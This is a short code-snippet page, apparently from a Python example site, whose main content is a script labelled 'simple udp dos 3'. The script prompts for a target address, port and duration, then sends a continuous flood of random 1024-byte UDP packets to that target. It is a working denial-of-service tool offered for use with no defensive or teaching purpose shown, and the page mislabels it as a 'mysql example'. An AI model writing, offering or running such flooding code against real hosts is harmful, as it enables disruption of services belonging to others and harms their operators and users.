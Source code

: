 ```yaml
---
title: python script simple udp dos 3 (snippet)
date: 2020-03-03
tags: ["python"]
---
```

Python script 'simple udp dos 3'


Modules used in program: 
* `import random`
* `import socket`
* `import time`
* `import sys`
* `import os`

## python simple udp dos 3

Python mysql example: simple udp dos 3

```python
import os
import sys
import time
import socket
import random

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1024)
print("This is a simple tool for udp dos.")

ip = input("Target ip or url: ")
port = int(input("Port: "))
dur = int(input("Time: "))

timeout = time.time() + dur
sent = 0

while True:
    try:
        if time.time() > timeout:
            break
        else:
            pass
        sock.sendto(bytes, (ip, port))
        sent += 1
        print("Sent %s packets to %s" % (sent, ip))
    except KeyboardInterrupt:
        sys.exit()

```

## Python links

- Learn Python: https://pythonbasics.org/
- Python Tutorial: https://pythonspot.com
